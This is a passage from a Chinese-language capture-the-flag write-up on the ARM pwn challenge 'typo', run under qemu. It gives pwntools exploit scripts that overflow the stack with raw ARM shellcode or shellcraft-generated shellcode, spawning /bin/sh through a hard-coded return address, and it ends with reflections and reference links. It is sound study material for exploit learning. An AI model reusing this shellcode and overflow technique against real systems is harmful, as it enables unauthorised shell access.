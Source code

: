 ```python

io.sendline(payload)
io.interactive()
```

shellcode解法：不同环境栈地址不同

```python
from pwn import *
context(log_level='debug')
#io = process(['qemu-arm',"-g","1234",'./typo'])
io = process(['qemu-arm','./typo'])
io.sendlineafter("quit\n","")

shellcode  = "\x02\x20\x42\xe0\x1c\x30\x8f\xe2"
shellcode += "\x04\x30\x8d\xe5\x08\x20\x8d\xe5"
shellcode += "\x13\x02\xa0\xe1\x07\x20\xc3\xe5"
shellcode += "\x04\x30\x8f\xe2\x04\x10\x8d\xe2"
shellcode += "\x01\x20\xc3\xe5\x0b\x0b\x90\xef"
shellcode += "/bin/sh"

payload = shellcode.ljust(112,'a')
payload += p32(0xf6ffed64)

io.sendline(payload)
io.interactive()
```

shellcraft精简版：

```python
from pwn import *
context(log_level='debug',arch='arm')
io = process(['qemu-arm','./typo'])

io.sendlineafter("quit\n","")
io.sendline(asm(shellcraft.sh()).ljust(112,'a') + p32(0xf6ffed64))
io.interactive()
```

### 总结

看起来的确在android上还是有很大的不一样的，而且自己对于控制IO还不是很懂，比如当漏洞程序执行execve("/bin/sh",0,0)，我们的确执行了程序的控制流，但是getshell实际上是启动一个子进程然后执行/bin/sh，但是父进程输入输出和子进程的输入输出都是在当前的tty，我们getshell之后，父进程是直接崩溃了么？这个过程具体是啥样的我还不是很清楚。

## 其他参考

typo的wp:
- [Pwn-10月15-简单了解异构pwn题](https://www.cnblogs.com/yof3ng/p/9824060.html)
- [jarvis oj typo](https://blog.csdn.net/weixin_41617275/article/details/89928378)


利用qemu的pwn环境搭建:
- [arm pwn 环境搭建](https://nocbtm.github.io/2020/01/21/arm-pwn%E7%8E%AF%E5%A2%83%E6%90%AD%E5%BB%BA/#qemu-%E7%AE%80%E4%BB%8B)
- [ARM栈溢出攻击实践：从虚拟环境搭建到ROP利用](https://www.freebuf.com/articles/terminal/107276.html)
- [arm32-pwn从环境搭建到实战](https://xz.aliyun.com/t/3744)
- [ARM PWN 环境搭建和测试](https://blog.csdn.net/u012655643/article/details/84584974)
- [如何 pwn 掉一个 arm 的binary](https://m4x.fun/post/how-2-pwn-an-arm-binary/)
- [arm pwn](http://myhackerworld.top/2018/09/27/arm-pwn/)
- [xman冬令营预选赛arm-pwn](https://carlstar.club/2019/02/11/arm-pwn/)


qemu相关:
- [QEMU搭建树莓派环境](https://www.freebuf.com/column/204231.html)
- [qemu-kvm](http://wiki.hacksmeta.com/virtualization/qemu-kvm.html)
- [Linux实战教学笔记53：开源虚拟化KVM（一）搭建部署与概述](https://www.cnblogs.com/chensiqiqi/p/9162989.html)
